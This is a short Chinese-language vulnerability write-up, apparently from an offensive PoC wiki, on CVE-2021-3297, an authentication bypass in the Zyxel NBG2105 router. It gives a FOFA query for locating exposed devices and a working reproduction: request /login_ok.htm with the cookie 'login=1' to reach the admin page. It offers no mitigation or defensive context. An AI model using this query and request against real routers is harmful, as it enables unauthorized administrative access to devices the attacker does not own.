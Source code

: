 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

<a-checkbox checked>Zyxel NBG2105</a-checkbox></br>

## FOFA

<a-checkbox checked>app="ZyXEL-NBG2105"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/zyxel-5.png)



其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验



![img](../../../.vuepress/public/img/zyxel-6.png)



可以看到检测到 Cookie中的 **login=1** 则跳转 home.html



```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```



请求如下则会以管理员身份跳转到 **home.htm页面**



```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```



![img](../../../.vuepress/public/img/zyxel-7.png)



## 